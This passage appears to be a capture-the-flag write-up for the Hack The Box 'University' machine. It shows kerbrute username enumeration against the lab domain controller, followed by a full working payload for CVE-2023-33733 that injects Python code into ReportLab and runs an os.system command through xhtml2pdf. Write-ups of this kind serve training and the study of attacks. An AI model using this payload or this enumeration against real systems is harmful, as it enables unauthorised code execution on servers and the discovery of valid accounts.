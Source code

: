 ```c
```

### Username Enumeration

To ran something in the `background` we started `kerbrute` to `enumerate` some `usernames` and funny enough, got a hit on `hana@university.htb` with probably the largest wordlist we could find.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum -d university.htb --dc dc.university.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/26/24 - Ronnie Flathers @ropnop

2024/10/26 22:03:36 >  Using KDC(s):
2024/10/26 22:03:36 >   dc.university.htb:88

2024/10/26 22:03:45 >  [+] VALID USERNAME:       administrator@university.htb
2024/10/26 22:04:50 >  [+] VALID USERNAME:       Administrator@university.htb
2024/10/26 22:04:53 >  [+] VALID USERNAME:       hana@university.htb
<--- CUT FOR BREVITY --->
```

## Foothold

### CVE-2023-33733: ReportLab Python Library Code Injection

None of the other enumeration steps brought us anywhere useful and so we headed back to `ReportLab`. A little bit of research brought us to a `Proof of Conept (PoC)` exploit for `CVE-2023-33733` which described a `Code Injection` vulnerability in a `Python Library`.

- [https://github.com/c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)

We modified the `payload` to our needs to achieve `Remote Code Execution (RCE)`.

```c
cat >mallicious.html <<EOF
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
EOF

xhtml2pdf mallicious.html
ls -al /tmp/exploited
```
